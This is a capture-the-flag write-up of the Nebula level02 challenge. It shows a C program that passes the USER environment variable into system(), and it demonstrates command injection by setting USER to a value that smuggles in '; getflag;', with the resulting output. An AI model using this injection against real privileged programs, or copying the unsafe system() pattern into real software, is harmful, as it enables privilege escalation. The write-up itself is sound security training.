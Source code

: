 ## Challenge
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

## Solution
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
The program executes `buffer`.
```c
system(buffer);
```
Buffer is comprised in the following line:
```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```
We can change the envar `USER` to craft a `command-injection` attack.
```shell
level02@nebula:/home/flag02$ env USER="we r 1337; getflag; echo this" ./flag02
about to call system("/bin/echo we r 1337; getflag; echo this is cool")
we r 1337
You have successfully executed getflag on a target account
this is cool
```
